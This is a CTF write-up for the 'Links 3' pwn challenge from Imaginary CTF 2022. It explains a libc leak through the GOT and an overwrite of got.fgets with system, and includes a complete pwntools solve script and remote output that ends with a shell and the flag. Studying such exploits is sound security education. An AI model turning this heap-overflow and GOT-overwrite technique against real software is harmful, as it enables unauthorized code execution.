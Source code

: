 ```yaml
---
name: Links 3 (2022)
event: Imaginary CTF 2022
category: Pwn
description: Writeup for Links 3 (Pwn) - Imaginary CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Links 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/GCkHwYBlsN8/0.jpg)](https://www.youtube.com/watch?v=GCkHwYBlsN8 "Links 3")

## Description

> And now you guys are exploiting my View Time feature that I put there solely for your convenience? Fine, then - no more time for you!

**[download challenge binary](https://imaginaryctf.org/r/iYVvf#links3)**

## Solution

I'll keep this short; since `Links 2`, the `view_time` function has been removed. We no longer have `system` in the GOT, but that doesn't matter.

As is common practice with stack-based buffer overflows, we can leak **any** Lib-C function address and then calculate our way back to the base of the binary. From there, we can add any offset we like to get the function of choosing, e.g. `libc.system` or a string, e.g. `libc."/bin/sh"`.

I chose to leak `got.puts`, when run against the server it leaks `0x7fbfd373eed0`. Once we get an address of a known function, we can take it to **[libc.blukat.me](https://libc.blukat.me)** or **[libc.rip](https://libc.rip)** and provide the function name and address.

We'll get a list of possible Lib-C library versions. The more functions we leak, the more we can narrow down the search.

In this case, the correct version was `libc6_2.35-0ubuntu3_amd64`, so we plug in the correct offsets.

{% code overflow="wrap" %}
```py
libc = puts - 0x80ed0
system = libc + 0x50d60
```
{% endcode %}

Running the binary, we get a shell.

{% code overflow="wrap" %}
```py
python exploit.py REMOTE puzzler7.imaginaryctf.org 2998
[+] Opening connection to puzzler7.imaginaryctf.org on port 2998: Done
[*] leaked got_puts: 0x7f470992eed0
[*] got_system: 0x7f47098fed60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{dammit_I'm_never_gonna_mix_up_64_and_0x64_again_it's_cost_me_three_flags_already}
```
{% endcode %}

**note:** If this write-up didn't make much sense, review `Links 1` and `Links 2` write-ups first 🙂

## Solve Script

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.puts, 0x51]))

# View list (leak libc.puts() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
puts = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_puts: %#x", puts)
# libc6_2.35-0ubuntu3_amd64 - https://libc.rip/
libc = puts - 0x80ed0
system = libc + 0x50d60
info("got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system
io.sendlineafter(b'>>>', flat(system))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
{% endcode %}
